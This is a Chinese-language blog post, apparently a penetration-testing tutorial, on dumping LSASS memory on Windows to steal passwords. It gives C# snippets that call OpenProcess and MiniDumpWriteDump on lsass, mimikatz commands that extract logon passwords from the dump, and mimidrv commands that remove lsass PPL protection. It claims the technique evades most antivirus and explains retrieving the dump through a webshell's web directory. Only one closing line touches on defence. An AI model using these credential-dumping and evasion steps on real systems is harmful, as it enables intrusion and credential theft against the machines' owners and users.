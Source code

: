 ```yaml
---
layout: post
title: MiniDumpWriteDump
---
```




## 0x01 

常见内网渗透会经常遇到抓取windows密码的场景，本文用来学习使用内存转储的方式来获取windows密码。

## 0x02

我们可以将转储LSASS的进程内存。Windows允许我们创建转储文件，它是给定进程的快照。此转储包括加载的库和应用程序内存。

在任务管理器中直接转储就可以，他将会生成一个dmp的文件，然后拿回本地用Mimikatz解密即可。



![img](https://gitee.com/a4m1n/tuchuang/raw/master/pic/clipboard.png)

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

这样做的缺点是需要图形化界面，需要登录到管理员桌面，然后操作，渗透中常用的方法有sqldump,procdump,不过Procdump在遇到某些AV时候会被拦截，不过选择要procdump的pid来转储时也可以达到Bypass的效果

## 0x03

其实不难发现，Procdump和任务管理器的这两种方法都是使用了MiniDumpWriteDump的API

```c
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,      //获取 LSASS的句柄
  DWORD                             ProcessId,     //获取 LSASS的进程ID号
  HANDLE                            hFile,		   //要写入信息的文件句柄
  MINIDUMP_TYPE                     DumpType,      //要生成的信息类型
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  //指向MINIDUMP_EXCEPTION_INFORMATION 结构的指针
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  //指向MINIDUMP_USER_STREAM_INFORMATION 结构的指针 
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam   //指向MINIDUMP_CALLBACK_INFORMATION 结构的指针
);
```

其实并不需要全部的参数，使用前面4个即可，然后看下需要的Import

![image-20210811173030733](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811173030733.png)

```c#
static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, int DumpType, ref MINIDUMP_EXCEPTION_INFORMATION ExceptionParam,IntPtr UserStreamParam, IntPtr CallbackParam);
```

要获取进程 ID，我们可以使用 Process 类GetProcessesByName 方法

```c#
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;
```

使用Process方法的时候需要引入Diagnostics

![image-20210811174541665](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174541665.png)

使用Win32 OpenProcess来获取Lsass

![image-20210811174944360](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174944360.png)

```c#
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
```

然后我们提供完整的访问参数

![image-20210811190434296](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811190434296.png)

最后设置需要输出的这个文件,这里选择使用Win32 CreateFile这个API

实例化FileStream对象，必须提供两个参数:文件名(lsass.dmp)、文件的完整路径和文件模式,这里要加入System.IO命名空间

![image-20210811191125006](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191125006.png)

最后调用MiniDumpWriteFile,当向MiniDumpWriteFile加文件句柄时候,要加一个SafeHandle类

```c#
bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
```

至此结束,完整代码如下

![image-20210811191647971](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191647971.png)

通常生成的lsass.dmp的文件一般比较大,只有webshell的时候下载不便,但是可以通过copy的方法,把favicon.ico复制到可以访问到的web目录,然后用wget将其下载本地解密,也可以直接把输出的文件地址改到web服务器的物理路径



解密方法

```c
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

## 0x04

2012年之后,windows开发了一种缓解的技术,LSASS收到PPL保护,注册表可以看到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa的值为1,不过该保护机制默认是关闭的

![image-20210811192818106](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811192818106.png)

这种情况下直接抓取密码是会失败的,同样也无法转储,返回错误值0x00000005 (Access拒绝），通常我们privilege::debug

是通过privilege::debug命令通过调用AdjustTokenPrivileges来启用SeDebugPrivilege,这也意味着我们要是系统管理员权限或者本地管理员权限，遇到这种情况可以使用mimikatz加载mimidrv

```
!+

!processprotect /process:lsass.exe /remove
```

![image-20210811193539749](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811193539749.png)

解除保护后就可以正常dump密码了



## 0x05

利用上述方法，可以Bypass国内的大部分AV, 面对卡巴斯基还是略差一点，不过卡巴目前还是可以通过reg的方法获取密码

![image-20210811194142907](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811194142907.png)

防御minidump 可以考虑监控NtReadVirtualMemory，修改指向的内存地址。
